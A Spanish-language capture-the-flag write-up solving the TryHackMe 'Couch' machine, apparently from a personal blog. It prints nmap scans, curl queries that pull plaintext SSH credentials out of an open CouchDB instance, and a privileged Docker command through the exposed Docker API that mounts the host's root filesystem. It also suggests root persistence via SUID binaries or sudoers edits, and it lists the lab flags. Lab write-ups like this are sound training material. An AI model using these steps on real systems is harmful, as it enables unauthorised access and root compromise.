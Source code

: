 ```yaml
---
title: Couch (Try Hack Me)
author: J0lm3d0
date: 2021-10-12 12:00:00 +0200
categories: [TryHackMe]
tags: [linux, couchdb, docker]
pin: false
---
```


En este documento se recogen los pasos a seguir para la resolución de la máquina Couch de la plataforma TryHackMe. Se trata de una máquina Linux de 64 bits, que posee una dificultad fácil de resolución según la plataforma.

![Logo de la máquina](/assets/img/THM/Couch/machine.png)

[Write-up en PDF realizado mediante LaTeX](/pdfs/Write_up_Couch.pdf)

## Enumeración de servicios y recopilación de información sensible

Lo primero a realizar es un escaneo de todo el rango de puertos TCP mediante la herramienta `Nmap`.

```
# nmap -p- --open -T5 -n -vv 10.10.141.129

Not shown: 65182 closed ports, 351 filtered ports
Reason: 65182 resets and 351 no-responses
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5984/tcp open  couchdb syn-ack ttl 63
```

Tras obtener los puertos que la máquina tiene abiertos, aplico scripts básicos de enumeración y utilizo la flag -sV para intentar conocer la versión y servicio que están ejecutando cada uno de esos puertos.

```bash
# nmap -p22,5984 -sC -sV 10.10.141.129

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Veo que, aparte del servicio SSH, nos encontramos un servicio `Apache CouchDb`, que se trata una base de datos de documentos NoSQL de código abierto que recopila y almacena datos en documentos basados en JSON. A diferencia de las bases de datos relacionales, CouchDB utiliza un modelo de datos sin esquema, que simplifica la gestión de registros en varios dispositivos informáticos. Al detectar la versión utilizada en el escaneo, pruebo a buscar exploits mediante la herramienta `SearchSploit`, encontrando un exploit que puede aplicar en dicha versión.

```
# searchsploit couchdb 1.6.1
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache CouchDB < 2.1.0 - Remote Code Execution                                                                                                                                                           | linux/webapps/44913.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Pero, tras hacer varias pruebas, compruebo que la vulnerabilidad que explota este script está subsanada o no aplica, ya que al realizar la petición POST que ejecutaría el comando, me da una respuesta "401 Unauthorized". Para continuar, accedo al servicio a través del navegador.

![Página principal del servidor web](/assets/img/THM/Couch/mainpage.png)

Buscando información en internet, encuentro el siguiente [artículo](https://book.hacktricks.xyz/pentesting/5984-pentesting-couchdb) en el que se explica como enumerar de forma manual las bases de datos de CouchDB a través de peticiones HTTP. A continuación, se ve el listado de bases de datos creadas, de las cuales las que más me llaman la atención son "_users" y "secret".

```
# curl -s -X GET http://10.10.141.129:5984/_all_dbs | jq
[
  "_replicator",
  "_users",
  "couch",
  "secret",
  "test_suite_db",
  "test_suite_db2"
]
```

## Acceso a la máquina

Tras enumerar más a fondo esas 2 bases de datos, encuentro en "secret" un documento que contiene una variable "passwordbackup" con unas credenciales.

```
# curl -s -X GET http://10.10.141.129:5984/secret/a1320dd69fb4570d0a3d26df4e000be7 | jq
{
  "_id": "a1320dd69fb4570d0a3d26df4e000be7",
  "_rev": "2-57b28bd986d343cacd9cb3fca0b20c46",
  "passwordbackup": "atena:t4qfzcc4qN##"
}
```

Con las credenciales obtenidas, logro conectarme a la máquina por SSH y obtengo la primera flag.

```
atena@ubuntu:~$ cat user.txt

THM{1ns3cure_couchdb}
```

## Escalada de privilegios

Enumerando el sistema para escalar privilegios, descubro que root está ejecutando un contenedor de Docker. Además, en el histórico de "bash" había encontrado un comando en el que se ejecutaba un contenedor de Docker con privilegios.

```
atena@ubuntu:~$ ps -faux

root       821  0.0  1.2 395632  6424 ?        Ssl  11:42   0:02 /usr/bin/containerd
root       827  0.0  2.6 451700 13028 ?        Ssl  11:42   0:04 /usr/bin/dockerd -H=fd:// -H=tcp://127.0.0.1:2375

atena@ubuntu:~$ cat .bash_history

docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Al volver a desplegar el histórico para copiar el comando, veo que se está creando una carpeta compartida en el directorio "/mnt" del contenedor, que contendrá el directorio raíz de la máquina anfitrión. Por tanto, al acceder al contenedor como root, puedo visualizar la flag que se encuentra en la máquina "host" en la ruta "/mnt/root/root.txt". Para conseguir una shell en la máquina anfitrión, solo tendría que, por ejemplo, asignar un permiso SUID a cualquier binario que permita obtener una shell o editar el fichero "/etc/sudoers" para que el usuario "atena", no privilegiado, pueda ejecutar comandos como root sin proporcionar contraseña.

```
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

/ # id

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

/ # cat /mnt/root/root.txt 

THM{RCE_us1ng_Docker_API}
```

Además, a modo de curiosidad, explico una forma para poder ejecutar el contenedor de la máquina víctima en nuestra máquina de atacante en este caso.

Al ver el proceso de Docker en el listado de procesos, observo que emplea la flag -H, utilizada para indicar el socket del demonio (daemon) de Docker al que se debe conectar el contenedor. El daemon de Docker es capaz de comunicarse con la API de Docker a través de 3 difentes tipos de socket: "unix", "tcp" y "fd". En este caso, se especificaban 2 tipos, un socket "fd" y un socket "tcp" que apuntaba a la propia máquina (localhost) por el puerto 2375.

De esta forma, como cuento con credenciales para el servicio SSH, podría realizar un Local Port Forwarding de tal forma que el puerto 2375 de mi máquina reenvíase las peticiones al puerto 2375 de la máquina víctima. De esta forma, podría lanzar el contenedor de docker en mi propia máquina.

![Local Port Forwarding del puerto 2375 mediante SSH](/assets/img/THM/Couch/lpf.png)

![Ejecutamos el contenedor en nuestra máquina de atacante](/assets/img/THM/Couch//offsecdocker.png)

Más información en la web de [Docker](https://docs.docker.com/engine/reference/commandline/dockerd/).
